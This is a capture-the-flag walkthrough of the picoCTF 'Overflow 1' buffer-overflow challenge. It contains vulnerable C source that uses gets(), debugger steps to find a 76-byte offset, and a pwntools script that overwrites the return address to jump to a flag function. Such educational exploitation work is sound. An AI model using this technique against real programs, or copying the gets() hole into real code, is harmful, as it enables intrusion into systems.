




[Back](PicoFrontPage.md)

# Overflow 1
---

### Intro
Overflow 1 focuses on the stack, more specifically, how function calls work, and thus, how we can exploit them.

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```
Some important point(s):
* Calls `gets()`

#### Functions and Function Calls

When a function is called, first its parameters are thrown on the stack, then the instruction pointer (the return address), then the old base pointer, during all of this the stack pointer is constantly moving up to point to the top of the stack. Finally, the base pointer is moved up to match the stack pointer. Let's draw that out.

<!-- Insert BasicCall -->


### Analysis

#### GEF-GDB

Fire up GDB for our executable (`gdb ./vuln`) and `info functions` to see all the different functions used.
You can find GDB cheat sheets online for more commands, those would be helpful.

Scrolling down, we can see some functions that are labelled `vuln` and `flag`.

<!-- Insert screenshot -->


If we `disassemble main` we can also see that it calls the `vuln()` function.

<!-- Insert screenshot -->


We can `disassemble vuln` to get a more in-depth view of what happens when `vuln` function is called.

<!-- Insert Screenshot -->


If we draw this out, we can get a better understanding of what is happening.

Another important note is that, the vuln calls the `gets()` function and if we check the man page for `gets` we'll see:
`NEVER USE THIS FUNCTION`

<!-- Screenshot of man page -->


The reason why `gets()` is extremely dangerous to use is because it will keep taking input until an EOF or newline is fed through. This allows us to overflow the buffer and leak into other important components of the stack. So in this case, we can overwrite the return address in `$eip`.

So drawing everything that was noticed before.

<!-- Insert stack image with measurements -->


And thus, we can see that the buffer is `0x44`, `$ebx` is `0x4`, `$ebp` is `0x4` and `$eip` is `0x4`. (x86 32-bit has 32-bit registers = 4 bytes).
So adding them (except `$eip`), we can see that, to reach `$eip`, it is `0x4c` in hex.
Using Python on command line, we can see that `0x4c` translates to 76 bytes.
```
	python
	0x4c
```
And now we know how many bytes to feed it to reach the instruction pointer.
From here we can do neat things.

In this, we'll be making use of `cyclic`, a nice tool to help us count bytes easily.

First, give it a normal run without GEF.

1. It'll ask you for a string
2. You input a string
3. And it'll give another string output that apparently prints out the return address

Fire up the GDB again, and this time we're going to let it run through the debugger.
Now, open up another terminal and run the command `cyclic 100`, this will give you a string of 100 bytes to feed to the program.

So, let the program run through `r` or `run`, and we get met by a string output asking for our input.
Feed it the copied string generated from the `cyclic` command.

<!-- Insert the output screencap -->


We can now see that the return address is different and we are met with a segmentation fault. This is because `0x61616174` (hex for taaa, little endian) does not actually exist, but what if we were to replace it with an address that DID exist and is in the form of a flag?
Back to the terminal with the `cyclic` command, or a new one if you closed it.
And we will be typing `cyclic -l taaa`. This will show the amount of bytes that are required to reach `taaa` or the instruction pointer (`$eip`).
We get the output of 76 and that just confirms our static analysis.

### EXPLOIT

So from here, we will be replacing the return address to the address of the flag function so that we can obtain the flag.
There are many ways to obtain the address of the flag function.
Something like doing `info functions` to find the address of the flag will work, anything goes, as long as it's right really.
`0x080485e6` - `flag()` address.

#### Pwntools

Here is the script:

```python
from pwn import *

proc = process('./vuln')

# variable for target address
addr = 0x080485e6

# set up payload, send 76 bytes of rubbish (the letter A in this case) and then the flag function address to overwrite the return address in little endian (xe6\x85\x04\x08)
payload = b'A'*76 + p32(addr)

proc.recvuntil(b'Give me a string and lets see what happens:')

proc.sendline(payload)

proc.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[Back](PicoFrontPage.md)  [Overflow 2](overflow2writeup.md)
